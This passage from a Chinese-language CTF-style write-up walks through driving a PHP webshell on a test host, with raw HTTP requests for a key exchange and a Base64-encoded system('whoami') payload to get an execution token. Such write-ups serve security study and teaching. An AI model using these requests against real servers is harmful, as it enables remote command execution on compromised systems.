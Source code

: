 通过编写这么一段代码，调换了一下顺序，就可以通过 `$t=>$_SESSION['token']` 和 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，拿到参数 `$v`

至此，整条利用链已经清晰，我们来复现一下吧：

#### 12.3.1 第一步、密钥协商得到 Token

对 WebShell 进行发包，`Token` 随便填啥都行

```plain
GET /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Token: 1
Content-Length: 0
```

在返回包中可以看到服务器生成的 `Token` 值和 `Cookie` 值

[![](assets/1707954023-dded68c245ad7ec9e0f0721493db4270.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144014-6ae1a342-c3f1-1.png)

#### 12.3.2 第二步，得到 X-CSRF-TOKEN

假设我们想执行系统命令 `whoami`，PHP 代码就是 `system('whoami');`，对其进行 Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，当然你想执行其他的命令也行哈哈

```plain
POST /decode.php HTTP/1.1
Host: test.ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

token=a2b3fca92539495e&out=c3lzdGVtKCd3aG9hbWknKTsg
```

然后通过上文写的解密 PHP，通过第一步获得的 `Token` 值和最终 Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，拿到得到 `X-CSRF-TOKEN`

[![](assets/1707954023-0a35efaa3907f88b75cd654ed0ac942d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144029-73c19cec-c3f1-1.png)
